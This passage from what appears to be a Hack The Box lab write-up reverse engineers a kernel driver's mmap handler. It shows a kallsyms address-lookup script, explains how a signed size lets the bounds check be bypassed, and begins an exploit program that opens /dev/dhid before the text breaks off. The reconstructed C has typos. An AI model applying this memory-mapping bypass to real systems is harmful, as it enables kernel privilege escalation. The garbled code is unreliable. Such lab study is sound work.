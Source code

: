 You might ask how the hell do I know the address of the kernel functions. Well, I don\'t. I wrote a script that simply `grep` address from `/proc/kallsymc`.

<div class="filename"><span>symbol.sh</span></div>

~~~~bash
#!/bin/bash

ADDRESS=$(sed 's/^0x//' <<<$1)
KALLSYMS=/proc/kallsyms

grep $ADDRESS $KALLSYMS
~~~~

#### Reverse Engineering of `dev_mmap`

It should be clear by now the driver implements its own `mmap` handler in the function `dev_mmap`. The following is my attempt to reverse engineer it based on the disassembly above.

~~~~c
static int dev_mmap(struct vm_area_struct *vma) {

	int vm_size = vma->vm_end - vma->vm_start;
	int offset  = vma->vm_offset << 0xc;  

	printk(KERN_INFO "DHID Device mmap( vma_size: %x, offset: %x)\n", vm_size, offset);

	if (vm_size > 0x10000 || offset > 0x1000 || (vm_size + offset) > 0x10000) {
		printk(KERN_INFO "HID mmap failed, requested too large a chunk of memory\n");
		return -EAGAIN;
	}

	if (remap_pfn_range(vma, vma-vm_start, offset, (vma->vm_end - vma->vm_start), vma->vm_page_prot)) {
		printk(KERN_INFO "DHID mmap failed\n");
		printk(KERN_INFO "DHID mmap failed, requested too large a chunk of memory\n);
		return -EAGAIN;
	}
	printk(KERN_INFO "DHID mmap OK\n");
	return 0;
}
~~~~

Note that the function attempts to conduct some checks to make sure that memory area to be mapped stays within bounds. However, because `vm_size` is declared as a signed integer, an attacker can use a negative number to bypass this check. I wrote some C code to test it out.

<div class="filename"><span>exploit.c</span></div>

~~~~c
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[]) {

  printf("[+] PID: %d\n", getpid());

  int fd = open("/dev/dhid", O_RDWR);
  if (fd < 0) {
    printf("[-] Open failed!\n");
    return -1;
  }
  printf("[+] Open OK fd: %d\n", fd);

~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/191
[2]: https://www.hackthebox.eu/home/users/profile/1963
[3]: https://www.hackthebox.eu/home/users/profile/11652
[4]: https://www.hackthebox.eu/